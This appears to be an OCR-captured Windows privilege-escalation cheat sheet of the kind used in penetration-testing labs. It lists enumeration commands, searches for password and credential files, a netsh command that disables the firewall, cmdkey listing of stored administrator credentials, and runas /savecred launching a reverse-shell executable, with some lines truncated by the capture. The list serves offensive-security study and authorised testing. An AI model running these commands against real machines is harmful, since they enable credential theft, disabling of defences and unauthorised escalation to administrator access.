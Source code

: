 
Network based
ipconfig
ipconfig /all
arp -a
router print
netstat -ano

Password Hunting

1 findstr /si password *.txt *.ini *.config (try searching in differe
2 dir /s *pass* == *cred* == *vnc* == *.config*
3 dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc*
4 where /R C:\ user.txt
5 where /R C:\ *.ini

Swisskyrepo for manual pwd enumeration
AV / Firewall check / Service Enumeration

1 sc query windefend
2 netsh advfirewall firewall dump
3 netsh advfirewall show currentprofile
4 netsh advfirewall firewall show rule name=all
5 netsh firewall show state (show firewall running or stopped)
6 netsh firewall show config (show firewall configuration)
7
8 netsh firewall set opmode disable # Disable firewall

Scheduled Tasks

schtasks /query /fo LIST /v

Mount Information

mountvol

Escalation Techniques
Service Account Priv Esc (Token Impersonation)
whoami /priv
Run As :

Use the cmdkey to list the stored credentials on the machine.

1 cmdkey /list
2 Currently stored credentials:
3 Target: Domain:interactive=WORKGROUP\Administrator
4 Type: Domain Password
5 User: WORKGROUP\Administrator

Using runas with a provided set of credential.

runas /savecred /user:admin C:\PrivEsc\reverse.exe

C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c

Access check :

accesschk.exe -ucqv [service_name] /accepteula
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win
8)
